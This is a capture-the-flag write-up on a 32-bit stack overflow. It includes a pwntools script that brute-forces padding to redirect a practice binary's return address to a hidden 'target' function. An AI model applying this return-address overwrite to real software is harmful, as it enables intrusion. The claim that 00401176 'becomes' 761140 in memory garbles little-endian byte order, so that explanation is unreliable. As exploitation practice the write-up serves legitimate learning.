 # Anomaly 64 - Pwning the Stack

We need to find the secret function and the input that will call it. To start I will through the binary into binary ninja.
![image_47.png](image_47.png)
Looking at the list of functions one stands out as `target`. To the left of the function we have it address but we need to convert it for memory so `00401176` become `761140` Now we write a program to brute force the offset needed to hit this function.

```Python
from pwn import *

exe_path = './anomaly_x86'

# Function to brute-force input
def brute_force_input():
    # Initialize the base input
    base_input = b'A'
    
    # Initialize memory address in hex format (modify this if necessary)
    memory_address = 0x00401176
    memory_address_bytes = p32(memory_address)  # Using p32 since 32bit binary
    
    # Initialize the process
    p = process(exe_path)
    
    # Try different lengths of the input
    for i in range(1, 100):  # Adjust the range as needed
        input_data = base_input * i + memory_address_bytes
        
        p.sendline(input_data)
        
        output = p.recvall(timeout=1)  # Adjust timeout as needed
        
        if b"Congrats" in output:
            print(f"Found input: {input_data}")
            break
        
        p.close()
        p = process(exe_path)
    else:
        print("Input not found within the given range.")

if __name__ == "__main__":
    brute_force_input()

```
